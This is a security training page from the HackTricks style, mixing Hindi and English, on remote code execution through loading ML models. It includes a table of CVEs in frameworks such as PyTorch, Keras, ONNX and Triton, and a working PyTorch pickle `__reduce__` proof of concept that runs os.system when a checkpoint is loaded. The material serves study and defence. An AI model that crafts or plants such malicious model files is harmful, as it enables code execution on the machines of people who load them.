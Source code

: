 # Models RCE

{{#include ../banners/hacktricks-training.md}}

## Loading models to RCE

Machine Learning models आमतौर पर विभिन्न प्रारूपों में साझा किए जाते हैं, जैसे ONNX, TensorFlow, PyTorch, आदि। इन मॉडलों को डेवलपर्स की मशीनों या उत्पादन प्रणालियों में लोड किया जा सकता है। आमतौर पर, मॉडलों में दुर्भावनापूर्ण कोड नहीं होना चाहिए, लेकिन कुछ मामलों में मॉडल का उपयोग सिस्टम पर मनमाना कोड निष्पादित करने के लिए किया जा सकता है, जो कि एक इच्छित विशेषता के रूप में या मॉडल लोडिंग लाइब्रेरी में एक भेद्यता के कारण हो सकता है।

लेखन के समय, इस प्रकार की भेद्यताओं के कुछ उदाहरण हैं:

| **Framework / Tool**        | **Vulnerability (CVE if available)**                                                    | **RCE Vector**                                                                                                                           | **References**                               |
|-----------------------------|------------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------|
| **PyTorch** (Python)        | *Insecure deserialization in* `torch.load` **(CVE-2025-32434)**                                                              | Malicious pickle in model checkpoint leads to code execution (bypassing `weights_only` safeguard)                                        | |
| PyTorch **TorchServe**      | *ShellTorch* – **CVE-2023-43654**, **CVE-2022-1471**                                                                         | SSRF + malicious model download causes code execution; Java deserialization RCE in management API                                        | |
| **TensorFlow/Keras**        | **CVE-2021-37678** (unsafe YAML) <br> **CVE-2024-3660** (Keras Lambda)                                                      | Loading model from YAML uses `yaml.unsafe_load` (code exec) <br> Loading model with **Lambda** layer runs arbitrary Python code          | |
| TensorFlow (TFLite)         | **CVE-2022-23559** (TFLite parsing)                                                                                          | Crafted `.tflite` model triggers integer overflow → heap corruption (potential RCE)                                                      | |
| **Scikit-learn** (Python)   | **CVE-2020-13092** (joblib/pickle)                                                                                           | Loading a model via `joblib.load` executes pickle with attacker’s `__reduce__` payload                                                   | |
| **NumPy** (Python)          | **CVE-2019-6446** (unsafe `np.load`) *disputed*                                                                              | `numpy.load` default allowed pickled object arrays – malicious `.npy/.npz` triggers code exec                                            | |
| **ONNX / ONNX Runtime**     | **CVE-2022-25882** (dir traversal) <br> **CVE-2024-5187** (tar traversal)                                                    | ONNX model’s external-weights path can escape directory (read arbitrary files) <br> Malicious ONNX model tar can overwrite arbitrary files (leading to RCE) | |
| ONNX Runtime (design risk)  | *(No CVE)* ONNX custom ops / control flow                                                                                    | Model with custom operator requires loading attacker’s native code; complex model graphs abuse logic to execute unintended computations   | |
| **NVIDIA Triton Server**    | **CVE-2023-31036** (path traversal)                                                                                          | Using model-load API with `--model-control` enabled allows relative path traversal to write files (e.g., overwrite `.bashrc` for RCE)    | |
| **GGML (GGUF format)**      | **CVE-2024-25664 … 25668** (multiple heap overflows)                                                                         | Malformed GGUF model file causes heap buffer overflows in parser, enabling arbitrary code execution on victim system                     | |
| **Keras (older formats)**   | *(No new CVE)* Legacy Keras H5 model                                                                                         | Malicious HDF5 (`.h5`) model with Lambda layer code still executes on load (Keras safe_mode doesn’t cover old format – “downgrade attack”) | |
| **Others** (general)        | *Design flaw* – Pickle serialization                                                                                         | Many ML tools (e.g., pickle-based model formats, Python `pickle.load`) will execute arbitrary code embedded in model files unless mitigated | |

इसके अलावा, कुछ पायथन पिकल आधारित मॉडल जैसे कि [PyTorch](https://github.com/pytorch/pytorch/security) द्वारा उपयोग किए जाने वाले, सिस्टम पर मनमाना कोड निष्पादित करने के लिए उपयोग किए जा सकते हैं यदि उन्हें `weights_only=True` के साथ लोड नहीं किया गया। इसलिए, कोई भी पिकल आधारित मॉडल इस प्रकार के हमलों के प्रति विशेष रूप से संवेदनशील हो सकता है, भले ही वे ऊपर की तालिका में सूचीबद्ध न हों।

उदाहरण:

- Create the model:
```python
# attacker_payload.py
import torch
import os

class MaliciousPayload:
def __reduce__(self):
# This code will be executed when unpickled (e.g., on model.load_state_dict)
return (os.system, ("echo 'You have been hacked!' > /tmp/pwned.txt",))

# Create a fake model state dict with malicious content
malicious_state = {"fc.weight": MaliciousPayload()}

# Save the malicious state dict
torch.save(malicious_state, "malicious_state.pth")
```
- मॉडल लोड करें:
```python
# victim_load.py
import torch
import torch.nn as nn

class MyModel(nn.Module):
def __init__(self):
super().__init__()
self.fc = nn.Linear(10, 1)

model = MyModel()

# ⚠️ This will trigger code execution from pickle inside the .pth file
model.load_state_dict(torch.load("malicious_state.pth", weights_only=False))

# /tmp/pwned.txt is created even if you get an error
```
{{#include ../banners/hacktricks-training.md}}
